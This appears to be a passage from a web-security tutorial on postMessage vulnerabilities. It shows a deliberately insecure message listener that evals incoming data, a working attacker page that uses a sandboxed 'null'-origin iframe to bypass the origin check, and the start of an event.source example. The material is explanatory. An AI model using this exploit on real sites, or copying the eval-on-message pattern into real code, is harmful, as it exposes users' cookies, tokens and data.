 Below is an example of a vulnerable page that registers a message listener and shows sensitive content on the page (cookies directly, but this may be a CSRF token or user data):

<pre class="language-php" data-title="https://example.com"><code class="lang-php">&#x3C;?php
// Vulnerable handler page contains some sensitive data
<strong>print_r($_COOKIE);
</strong>?>
&#x3C;script>
<strong>  onmessage = (e) => {
</strong><strong>    if (e.origin !== window.origin) return;
</strong><strong>    eval(e.data);
</strong>  }
&#x3C;/script>
</code></pre>

This can be exploited with a single click on the following attacker's page:

{% code title="https://attacker.com" %}
```javascript
// Sandboxed iframe to create 'null' origins
const frame = document.createElement("iframe");
frame.sandbox = "allow-scripts allow-popups allow-modals allow-top-navigation";

frame.srcdoc = `
<h1>Click here!</h1>
<script>
onclick = () => {
// Open the target page in a top-level context, including SameSite=Lax cookies
const w = window.open("https://example.com");

setTimeout(() => {
  // Exploit the XSS by reading the body
  w.postMessage("alert(document.body.innerText)", "*");
}, 1000);
}
<\/script>
`;
document.body.appendChild(frame);
```
{% endcode %}

### `event.source` hijacking

The [`.source`](https://developer.mozilla.org/en-US/docs/Web/API/MessageEvent/source) property of a MessageEvent is also sometimes used to check if a message came from a specific frame. It doesn't work with origins, but with window references. For example, one can check if the message came from a specific iframe:

<pre class="language-html" data-title="https://example.com"><code class="lang-html">&#x3C;iframe id="trusted" src="...">&#x3C;/iframe>
&#x3C;script>
  const trusted = document.getElementById("trusted");
  window.addEventListener("message", (e) => {
<strong>    if (e.source !== trusted.contentWindow) return;
</strong>    
    eval(e.data);
  });
&#x3C;/script> 
</code></pre>
